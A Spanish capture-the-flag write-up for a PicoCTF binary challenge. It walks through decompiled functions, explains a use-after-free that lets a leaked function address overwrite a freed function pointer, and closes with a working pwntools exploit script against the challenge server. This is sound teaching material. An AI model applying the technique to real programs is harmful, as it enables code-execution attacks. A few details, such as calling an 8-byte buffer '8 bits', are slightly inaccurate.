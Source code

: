 # Unsubscriptions are free - PicoCTF

## Reconocimiento

Descompilamos el binario con [[ghidra]] y veremos varias funciones interesantes. La primera:

```c
void hahaexploitgobrrr(void){
  FILE *__stream;
  int in_GS_OFFSET;
  char local_d8 [200];
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  __stream = fopen("flag.txt","r");
  fgets(local_d8,200,__stream);
  fprintf(_stdout,"%s\n",local_d8);
  fflush(_stdout);
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

Esta función imprime la flag desde un fichero `flag.txt`. Sin embargo no se llama desde ningún lugar, aunque vemos esta otra función:

```c
void s(void){
  printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
  puts("Thanks for subsribing! I really recommend becoming a premium member!");
  return;
}
```

Al ejecutar vemos que se imprime la dirección de la función *hahaexploitgobrrr*. Sigamos revisando para ver que podemos hacer con esta dirección.

Las funciones *main* y *printMenu* son bastante simples:

```c
void printMenu(void){
  puts("Welcome to my stream! ^W^");
  puts("==========================");
  puts("(S)ubscribe to my channel");
  puts("(I)nquire about account deletion");
  puts("(M)ake an Twixer account");
  puts("(P)ay for premium membership");
  puts("(l)eave a message(with or without logging in)");
  puts("(e)xit");
  return;
}

void main(void){
  undefined *puVar1;
  
  puVar1 = &stack0x00000004;
  setbuf(_stdout,(char *)0x0);
  user = malloc(4);
  do {
    printMenu(puVar1);
    processInput();
    doProcess(user);
  } while( true );
}
```

Las función *processInput* procesa el input del usuario, y *doProcess* llama a una función dado un puntero

```c
void processInput(void)

{
  code **ppcVar1;
  int iVar2;
  code *pcVar3;
  
  __isoc99_scanf(&DAT_08048f7f,&choice);
  iVar2 = toupper((int)choice);
  choice = (char)iVar2;
  switch(choice) {
  case 'E':
                    /* WARNING: Subroutine does not return */
    exit(0);
  default:
    puts("Invalid option!");
                    /* WARNING: Subroutine does not return */
    exit(1);
  case 'I':
    *user = i;
    break;
  case 'L':
    leaveMessage();
    break;
  case 'M':
    *user = m;
    puts("===========================");
    puts("Registration: Welcome to Twixer!");
    puts("Enter your username: ");
    ppcVar1 = user;
    pcVar3 = (code *)getsline();
    ppcVar1[1] = pcVar3;
    break;
  case 'P':
    *user = p;
    break;
  case 'S':
    if (user == (code **)0x0) {
      puts("Not logged in!");
    }
    else {
      *user = s;
    }
  }
  return;
}

void doProcess(code **param_1){
  (**param_1)();
  return;
}
```

Finalmente vemos la función *i*, que libera un puntero y puede llamarse varias veces:

```c
void i(void){
  int iVar1;
  int in_GS_OFFSET;
  char local_11;
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  puts("You\'re leaving already(Y/N)?");
  __isoc99_scanf(&DAT_08048f7f,&local_11);
  iVar1 = toupper((int)local_11);
  if (iVar1 == 0x59) {
    puts("Bye!");
    free(user);
  }
  else {
    puts("Ok. Get premium membership please!");
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

Esto parece que no deberia ser así, si lo probamos da un error, lo que parece un bug del tipo ***Use after free***. Veremos si existe manera de escribir en dicho espacio de memoria.

Con *leaveMessage* podemos reservar un buffer de 8 bits y asignarlo.

```c
void leaveMessage(void){
  void *__buf;
  
  puts("I only read premium member messages but you can ");
  puts("try anyways:");
  __buf = malloc(8);
  read(0,__buf,8);
  return;
}
```

Con toda esta información podemos hacer lo siguiente:

1. Liberamos el buffer *user* con *i*. Que se irá a la *tcache*.
2. Reservaremos otro buffer con *leaveMessage*. Esta reserva vendrá de la *tcache*, por lo que apuntará a donde apuntaba *user*.
3. Escribiremos la dirección de *hahaexploitgobrrr* en dicho buffer.
4. Volveremos a liberar *user* para llamar a dicha función.

## Explotación

La realizaremos mediante un script en [[python]] y usando [[pwntools]]:

```python
#!/usr/bin/python3

from pwn import log, process, remote, time
import pwnlib.util.packing as pack

p = remote("mercury.picoctf.net", 58574)

p.sendline(b"S") # Get the memory leak

for i in range(9):
    try:
        inp = str(p.recvline()[21:].strip())[2:].strip("'") # Get the address from the leak
    except:
        log.info("")


inp = int(inp, 16) # Convert it to hex
log.info(f"{hex(inp)}")

p.sendline(b"I")    # Free user
p.sendline(b"Y")

p.sendline(b"L")    # Allocate the new buffer and write the address to it
time.sleep(1)
p.sendline(pack.p64(inp))

p.sendline(b"I")    # Free user again
p.sendline(b"Y")

p.interactive()
```
